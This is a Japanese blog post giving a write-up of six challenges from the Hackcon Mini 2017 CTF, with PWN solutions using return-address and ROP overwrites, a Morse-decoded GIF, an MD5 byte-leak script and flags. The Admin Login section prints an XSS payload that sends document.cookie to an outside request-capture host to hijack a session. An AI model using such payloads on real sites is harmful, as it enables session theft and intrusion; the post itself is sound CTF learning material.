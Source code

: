```yaml
---
layout: post
title: Hackcon Mini の write-up
categories: [ctf]
date: 2017-02-12 05:30:00 +0900
---
```


チーム Harekaze で [Hackcon Mini](http://hackcon.in/) に参加しました。

最終的にチームで 585 点を獲得し、順位は 8 位 (得点 110 チーム中) でした。うち、私は 6 問を解いて 590 点を入れました。

…計算が合いませんが、これは罠として仕込まれている特定のフラグを送信すると、マイナスの得点が入ってしまうという問題があったためです。

以下、解いた問題の write-up です。

## [PWN 30] Random

乱数を当てろという問題です。最初に `srand(time(NULL))` をしており、しかもこの `time(NULL)` の値を教えてくれるので、こちらで再現した値を投げれば終わりです。

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  srand(atoi(argv[1]));
  printf("%d\n", rand());
  return 0;
}
```

```
HACKCON{n00b_scrubs_get_me_a_real_pwn!}
```

## [PWN 100] Game of Integers - Part 1

SSP がありますが、canary を書き換えずに直接リターンアドレスを書き換えられます。`run_me` に飛ばしましょう。

```
$ nc 35.154.158.26 31338
Which index do you want to overwrite?
24
Enter value to overwrite:
134513979
Lets see!
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
Its impossible to run me. Is it?
```

```
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
```

## [PWN 200] Game of Integers - Part 2

`run_me` は潰されてしまっているようなので、直接 `system` を呼んでしまいましょう。

```
$ nc 35.154.158.26 31337
Which index do you want to start the overwrite?
24
How many integers?
3
Enter value to overwrite:
134513664
Enter value to overwrite:
1094795585
Enter value to overwrite:
134514497
Lets see!
HACKCON{ROP_WITH_INTS}
```

```
HACKCON{ROP_WITH_INTS}
```

## [Web 50] Webdev

DevTools を開きながらページを見ると、`movie.gif` というやけに大きな gif を取りに行っているのが確認できます。

この gif はアニメーションでチカチカ点滅していますが、白が表示される間隔が少しズレているように思えます。黒を 0、白を 1 として文字列にしてみましょう。

```python
from PIL import Image
im = Image.open('movie.gif')
w, h = im.size
res = ''
try:
  while True:
    i = im.convert('RGB')
    res += '0' if i.getpixel((0, 0)) == (0, 0, 0) else '1'
    im.seek(im.tell() + 1)
except:
  print(res)
```

結果を `result.txt` として保存して、さらに次のスクリプトを実行します。

```python
s = open('result.txt').read().strip()
s = s.replace('00000', ' ')
s = s.replace('0000', '-')
s = s.replace('000', '.')
s = s.replace('1', '')
print(s)
```

```
.... . .-.. .-.. ---   ..-. .-. .. . -. -..   .... . .-.. .-.. ---   ..-. .-. .. . -. -..   - .... .- - ...   .-.. .- -- .   -- .- -.-- -... .   ..   ... .... --- ..- .-.. -..   --. .. ...- .   -.-- --- ..-   .-   -. .- -- .   -... ..- -   - .... .- - ...   .-   ... .-.. .. .--. .--. . .-. -.--   ... .-.. --- .--. .   -.-- --- ..- .-. .   --- -. .-.. -.--   .. -.   -- -.--   .... . .- -..   .-- .   .... .- ...- .   - ---   .-. . -- . -- -... . .-.   - .... .- -   .- -. -..   --- -. .   - .... .. -. --.     -... - .--   - .... .   ..-. .-.. .- --.   .. ...   .... .- -.-. -.- -.-. --- -. -- --- .-. ... . ..-. .-.. .- --.
```

モールス信号が出てきました。これをデコードするとフラグが出てきました。Web とは…。

```
`HACKCONMORSEFLAG`
```

## [Web 60] Admin Login

とりあえずデモユーザーでログイン。試しに `<s>haifuri</s>` をポストすると、エスケープされずに表示されました。XSS があるようです。

`<script>(new Image).src='http://requestb.in/xxx?'+document.cookie;</script>` をポストしてみると、サーバの IP アドレスからセッション ID 付きでアクセスが来ました。

このセッション ID をセットして更新すると、フラグが表示されました。

```
seSSi0n_h!Jack1ng_!s_@wesOmEEEEE!
```

## [Web 150] BF

問題文を確認しましょう。得られた文字列が `tyuio` のときフラグは `87c1b071153ae8fd35acfd9ab3f3f6bb` で、`juteg` のときフラグは `d6d684e70bb4c5801b012151141add87` になるようです。

[CrackStation](https://crackstation.net/) に `87c1b071153ae8fd35acfd9ab3f3f6bb` を投げるとこれは `bgcqw` の md5 ハッシュだと分かりました。これは `tyuio` をシーザー暗号で右に 8 シフトさせた文字列です。

動いているサービスを確認しましょう。任意の Brain なんとかのコードを実行できますが、返ってくる出力は md5 にかけられてしまっています。そして、欲しい文字列は入力として入ってきます。

1 バイトずつ出力させれば、あらかじめテーブルを作っておくだけで元の文字が分かります。

```python
import hashlib
import requests

t = {}
for x in range(256):
  t[hashlib.md5(bytes([x])).hexdigest()] = chr(x)

i = 1
res = ''
while True:
  r = requests.get('http://35.154.158.26:10300/{}.'.format(',' * i))
  res += t[r.content.decode('ascii')]
  print(res)
  i += 1
```

結果は `bpqaqabpmwzqoqvitntioGMAAAAABPMnTiOQaippipilpplpl` でした。これを右に 8 シフトさせて md5 にかけたものがフラグです。

```
`9418ba5c569b70839474e121a7a72d58`
```

## 感想

この CTF は競技時間が 5 時間と非常に短いものでした。問題の量と難易度はその短さに見合ったものでしたが、それでもちょっとなあという感じです。
